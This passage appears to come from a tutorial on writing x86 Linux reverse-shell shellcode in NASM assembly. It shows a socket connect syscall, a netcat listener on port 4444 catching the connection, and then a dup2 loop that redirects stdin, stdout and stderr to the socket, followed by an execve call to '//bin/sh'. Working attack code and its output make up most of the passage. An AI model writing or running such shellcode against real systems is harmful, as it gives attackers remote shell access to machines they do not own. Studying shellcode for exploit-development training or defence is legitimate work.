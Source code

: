 ```nasm
mov ecx, esp      ; ECX contain the array pointer
inc ebx           ; EBX = 3 for SYS_CONNECT
int 0x80          ; EAX contains the connected socket
```

Now assemble and link the shellcode then, open a listener in another shell and run the code :

```bash
$ nc -lvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 51834
```

Your shellcode will *segfault*, but that's normal. However, you should receive a connection on your listener. Now, we need to implement the **shell** part of our shellcode. To do that, we will have to play with the *file descriptors*. There are 3 standard file descriptors :
  - **stdin** or 0 (input)
  - **stdout** or 1 (output)
  - **stderr** or 2 (error)

The idea is to duplicate the standard file descriptors on the file descriptor obtained with the call to *connect()* then, call */bin/sh*. That way, we will be able to have a reverse shell on the target machine.

There is syscall called [dup2](http://man7.org/linux/man-pages/man2/dup2.2.html), number **0x3f**, which can help us with that task. It takes 2 arguments :
  - The old *fd* -> *EBX*
  - The new *fd* -> *ECX*

```c
int dup2(int oldfd, int newfd);
```

Let's implement the rest of the code :

```nasm
; Call to dup2(fd, ...) with a loop for the 3 descriptors
xchg eax, ebx   ; EBX = fd for connect()
push BYTE 0x2   ; we start with stderr
pop ecx

loop:
mov BYTE al, 0x3f ; dup2()
int 0x80
dec ecx
jns loop ; loop until sign flag is set meaning ECX is negative

; Call to execve()
xor eax, eax
push eax        ; string terminator
push 0x68732f6e ; "hs/n"
push 0x69622f2f ; "ib//"
mov ebx, esp    ; "//bin/sh",0 pointer is ESP
xor ecx, ecx    ; ECX = 0
xor edx, edx    ; EDX = 0
mov al, 0xb     ; execve()
int 0x80  
```
